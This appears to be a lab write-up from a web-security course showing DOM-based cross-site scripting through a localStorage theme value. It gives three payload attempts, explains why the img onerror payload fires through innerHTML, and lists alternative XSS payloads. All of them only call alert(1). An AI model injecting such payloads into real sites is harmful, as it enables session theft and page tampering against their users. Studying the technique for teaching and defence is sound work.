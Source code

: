 ### Attempt 1: Script Tag

```javascript
localStorage.setItem(
  "cs6262-web-security-user-theme",
  "<script>alert(1)</script>"
);
```

**Problem:** Some applications sanitize `<script>` tags even when reading from `localStorage`. Also, dynamically inserted script tags via `innerHTML` don't execute in modern browsers for security reasons.

**Result:** No alert.

### Attempt 2: Event Handler on Div

```javascript
localStorage.setItem(
  "cs6262-web-security-user-theme",
  '<div onload="alert(1)">test</div>'
);
```

**Problem:** `<div>` elements don't have an `onload` event.

**Result:** No alert.

### Attempt 3: Image with onerror (Success!)

```javascript
localStorage.setItem(
  "cs6262-web-security-user-theme",
  "<img src=x onerror=alert(1)>"
);
```

**Why this works:**

1. The application injects the value into the DOM: `document.body.innerHTML += userTheme`
2. The browser parses the `<img>` tag
3. The browser tries to load an image from `src=x`
4. The load fails (no such image exists)
5. The `onerror` event fires
6. `alert(1)` executes

**Result:** ✓ Alert triggered!

### Alternative Payloads That Work

```javascript
// SVG with onload
"<svg onload=alert(1)>";

// Body with onload (if injected into body)
"<body onload=alert(1)>";

// Iframe with src
'<iframe src="javascript:alert(1)">';

// Object with data
'<object data="javascript:alert(1)">';
```
